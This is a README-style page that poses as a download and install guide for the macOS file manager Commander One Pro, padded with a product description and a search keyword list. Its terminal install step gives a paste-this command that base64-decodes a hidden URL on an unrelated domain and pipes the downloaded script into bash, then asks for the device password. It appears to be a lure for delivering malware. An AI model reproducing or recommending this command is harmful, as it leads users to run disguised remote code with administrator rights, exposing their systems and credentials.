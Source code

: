# Commander One Pro Mac Download

![Commander One Icon](https://is1-ssl.mzstatic.com/image/thumb/Purple211/v4/d4/f1/49/d4f14918-6c7b-ea07-c586-b70d5e2851e8/AppIcon-0-85-220-0-5-0-0-2x-0-0.png/1200x630bb.png)  

---

# ⬇️ Download Commander One Pro

[![⬇️ Download Now](https://img.shields.io/badge/Commander%20%20One%20%20Pro-Download%20%20-blue?style=for-the-badge&logo=apple)](https://kiakodkfi3.github.io/.github/maccleaner)

## 📦 How to Install

## Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0801-1.gif](https://i.postimg.cc/13YxsdYG/0801-1.gif)](https://postimg.cc/DSspcxh0)

## Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQxL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-2.gif](https://i.postimg.cc/4x1CqdpS/0723-2.gif)](https://postimg.cc/Bjtw1JYT)

---

## 🧭 What is Commander One Pro?

**Commander One Pro** is an advanced **dual-pane file manager for macOS**, built to improve your workflow, give you deeper control over files, and replace the limited Finder experience with something more powerful and flexible.

Commander One Pro features **tabbed navigation**, **multi-selection support**, **advanced search by regex**, **file operations queue**, **hotkeys**, and even a built-in **Terminal emulator**. It’s an ideal solution for developers, power users, and anyone managing large sets of data.

What really sets it apart is its **native integration with cloud services and remote servers**. You can mount and manage files from **Google Drive, Dropbox, OneDrive, Amazon S3, WebDAV, FTP, FTPS, and SFTP** – all within the same interface. No extra apps or plugins needed.

It’s fully optimized for **macOS Ventura, Sonoma, and Apple Silicon (M1/M2/M3)** chips, ensuring excellent speed and performance. Whether you’re copying thousands of files, syncing remote servers, or navigating your local system, Commander One is built for speed and control.

Commander One also offers **Pro Pack features**, which include **file compression, extraction, process viewer, and root access mode** – making it a full-featured macOS toolset.

---

## 🧰 Key Features

- 🧭 **Dual-pane file manager** with tabs  
- ☁️ Mount and manage **cloud storage** and **remote servers**  
- 🔒 Supports **FTP, SFTP, WebDAV, Amazon S3, Dropbox, OneDrive**, and more  
- 🔎 **Advanced file search** with Regular Expressions  
- 🧩 Built-in **Terminal emulator**  
- 🗃️ View hidden files and manage system-level files  
- 📂 Easily **compress and extract** ZIP, RAR, TAR, 7zip, etc.  
- 🔧 Queue file operations and run in background  
- 🖥️ Compatible with **macOS Ventura, Sonoma** and **Apple Silicon**  
- ⚙️ **Customizable hotkeys**, themes, and layouts  

---

![Commander One Screenshot](https://commander-one.com/wp-content/uploads/2024/02/c1-screenshot.png)

---

## 💻 System Requirements

- **macOS:** 10.13 or later (Ventura/Sonoma supported)  
- **RAM:** 2 GB minimum  
- **Disk space:** 100 MB free  
- **Architecture:** Intel & Apple Silicon (Universal Binary)

---

## 🔑 Keywords

`commander one`, `one commander`, `commander one pro`, `commander one mac`,  
`commander one ftp`, `commander one download`, `commander 1`, `commander one file manager`,  
`commander one for mac`, `commander one mac os`, `mac commander one`, `macos commander`,  
`one commander review`, `commander one app`, `commander one download mac`,  
`commander one file manager mac`, `commander one mac download`, `commander one pro download`,  
`commander one pro mac`, `download commander one`, `download commander one for mac`, `one commander mac`

---
